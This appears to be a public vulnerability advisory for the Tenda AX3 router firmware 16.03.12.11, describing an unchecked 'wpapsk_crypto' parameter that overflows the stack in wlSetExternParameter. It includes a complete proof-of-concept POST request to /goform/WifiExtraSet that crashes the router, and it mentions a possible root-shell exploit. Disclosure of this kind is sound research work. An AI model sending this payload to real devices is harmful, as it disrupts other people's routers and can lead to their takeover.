


# TENDA AX3 16.03.12.11 stack overflow Vulnerabilty in **wlSetExternParameter**

## Firmware infomation

- Manufacturer's address：https://www.tenda.com.cn/
- Affected firmware infomation：https://www.tenda.com.cn/download/detail-3476.html


## Vulnerability Description

There is a stack overflow vulnerability in function `wlSetExternParameter`, in which the `wpapsk_cryptovalue` variable can be obtained from the http request parameter `wpapsk_crypto` without checking its size. The vulnerability can be triggered following `fromSetWirelessRepeat->wlSetExternParameter`.





## POC

```
POST /goform/WifiExtraSet HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 351

wifi_chkHz=0&wl_mode=wisp&security=wpapsk&wpapsk_type=wpa&wpapsk_key=aaaaaaaaaaa&wpapsk_crypto=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

We can see the router crash, and finally we can write an exp to get a root shell.